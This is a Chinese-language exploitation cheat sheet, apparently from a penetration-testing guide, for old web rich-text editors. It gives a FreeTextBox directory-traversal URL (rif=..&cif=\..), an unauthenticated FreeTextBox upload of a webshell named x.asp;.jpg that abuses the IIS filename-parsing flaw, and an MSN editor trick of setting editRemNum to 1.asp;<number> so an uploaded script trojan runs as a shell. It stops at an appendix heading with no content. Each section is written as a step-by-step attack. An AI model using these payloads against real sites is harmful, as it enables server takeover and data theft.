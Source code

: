 ## Freetextbox

### Freetextbox遍历目录漏洞

影响版本：未知
脆弱描述：
因为ftb.imagegallery.aspx代码中 只过滤了/但是没有过滤\符号所以导致出现了遍历目录的问题。
攻击利用:
在编辑器页面点图片会弹出一个框（抓包得到此地址）构造如下，可遍历目录。
[http://navisec.it/Member/images/ftb/HelperScripts/ftb.imagegallery.aspx?frame=1&rif=..&cif=\](http://navisec.it/Member/images/ftb/HelperScripts/ftb.imagegallery.aspx?frame=1&rif=..&cif=\)..

### Freetextbox Asp.Net版利用IIS解析漏洞获得权限

影响版本：所有版本
脆弱描述：
没做登陆验证可以直接访问上传木马
Freetextbox 3-3-1 可以直接上传任意格式的文件
Freetextbox 1.6.3 及其他版本可以上传 格式为x.asp;.jpg
攻击利用：
利用IIS解析漏洞拿SHELL。上传后SHELL的路径为[http://navisec.it/images/x.asp;.jpg](http://navisec.it/images/x.asp;.jpg)

## Msn editor

### 利用WIN 2003 IIS文件名称解析漏洞获得SHELL

影响版本：未知
脆弱描述：
点击图片上传后会出现上传页面，地址为
[http://navisec.it/admin/uploadPic.asp?language=&editImageNum=0&editRemNum=](http://navisec.it/admin/uploadPic.asp?language=&editImageNum=0&editRemNum=)
用普通的图片上传后，地址为
[http://navisec.it/news/uppic/41513102009204012_1.gif](http://navisec.it/news/uppic/41513102009204012_1.gif)
记住这时候的路径，再点击图片的上传，这时候地址就变成了
[http://navisec.it/news/admin/uploadPic.asp?language=&editImageNum=1&editRemNum=41513102009204012](http://navisec.it/news/admin/uploadPic.asp?language=&editImageNum=1&editRemNum=41513102009204012)
很明显。图片的地址是根据RemNum后面的编号生成的。
攻击利用:
配合IIS的解析漏洞，把RemNum后面的数据修改为1.asp;41513102009204012，变成下面这个地址
[http://navisec.it/admin/uploadPic.asp?language=&editImageNum=0&editRemNum=1.asp;41513102009204012](http://navisec.it/admin/uploadPic.asp?language=&editImageNum=0&editRemNum=1.asp;41513102009204012)
然后在浏览器里打开，然后选择你的脚本木马上传，将会返回下面的地址
uppic/1.asp;41513102009204012_2.gif
直接打开就是我们的小马地址！

## 附录

### 附录A – Apache文件名解析缺陷漏洞
